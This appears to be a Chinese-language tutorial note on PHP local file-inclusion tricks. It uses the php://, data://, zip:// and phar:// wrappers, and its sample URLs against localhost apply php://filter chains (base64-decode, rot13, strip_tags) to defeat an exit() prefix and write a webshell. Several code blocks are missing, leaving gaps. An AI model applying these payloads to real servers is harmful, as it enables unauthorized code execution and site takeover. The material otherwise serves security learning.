


这里就不多BB了，现在是使用到的文件包含多位协议包含，所以这里总结几个协议包含
php://
php://input
|
|
enctype=“multipart/form-data” 的时候 php://input 是无效的。

php://filter
|
|
任意文件包含中，我们常用php://filter/read=convert.base64-encode/resource=xxx.php来读取源码
php://filter 的其他利用场景
|
|
上面代码中 $str 加上了exit()函数，因此后面的任意语句都不会输出，如果我们能吃掉前面的代码，那么就能直接写个webshell
-
第一种利用：
http://127.0.0.1/php/3.php?f=php://filter/write=convert.base64-decode/resource=shell.php&c=dddPD9waHAgcGhwaW5mbygpOyA/Pg==这里利用转换过滤器将shell.php的内容进行base64解码，吃掉了前面的<?php exit(\’74\’);?>。要注意的是base64的解码原理 -
第二种利用：
http://127.0.0.1/php/3.php?f=php://filter/write=string.rot13/resource=shell.php&c=<?cuc cucvasb();?>这里利用字符串过滤器将shell.php的内容进行rot13加密，使<?php exit(\’74\’);?>变成<?cuc rkvg(’74’);?>这样不被解析的代码。这里要注意的是没有开启short_open_tag -
第三种利用：
http://127.0.0.1/php/3.php?f=php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php&c=PD9waHAgcGhwaW5mbygpOyA/Pg==这里利用字符串过滤器strip_tags(等同于strip_tags()函数)将php标记过滤掉了，然后再对内容进行base64解密，这样就避免了我们写入的代码也被过滤了
data://
当 allow_url_include=On 的时候，在任意文件包含中可以利用 data:// 直接拿到webshell
|
|

zip://
使用zip协议进行包含，首先我们新建一个zip文件，里面压缩着一个php脚本。

然后我们构造zip://clay.zip#clay.php
http://127.0.0.1/file.php?file=zip://clay.zip%23clay.php
我们只需要把一个1.php压缩为1.zip然后把zip改个名字就好了
这样就成功shell了。
phar://
使用phar协议我么可以自定义上传的后缀名，首先我们要用phar类打包一个phar标准包
|
|